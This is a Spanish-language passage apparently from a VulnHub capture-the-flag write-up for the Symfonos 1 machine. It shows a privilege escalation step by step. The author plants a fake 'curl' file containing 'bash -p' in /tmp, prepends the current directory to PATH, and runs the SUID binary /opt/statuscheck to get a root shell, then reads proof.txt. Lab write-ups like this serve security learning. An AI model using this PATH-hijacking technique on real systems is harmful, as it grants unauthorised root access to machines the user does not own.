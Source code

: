 Para ello, nos movemos al directorio `tmp` y creamos un binario `curl` que contenga como código `bash -p`.

```bash
echo 'bash -p' > curl
```

Le asignamos permisos de ejecución.

```bash
chmod +x curl
```

Y exportamos la variable de entorno `PATH` para que considere en primer lugar el directorio actual de trabajo.

```bash
export PATH=.:$PATH
```

Por ultimo, ejecutamos el binario.

```bash
/opt/statuscheck
```

De esta forma, logramos elevar nuestros privilegios.

![Symfonos 1](/assets/img/vulnhub/symfonos1/symfonos30.png)
_usuario root.txt_

Finalmente, leemos el archivo `proof.txt`.

![Symfonos 1](/assets/img/vulnhub/symfonos1/symfonos31.png)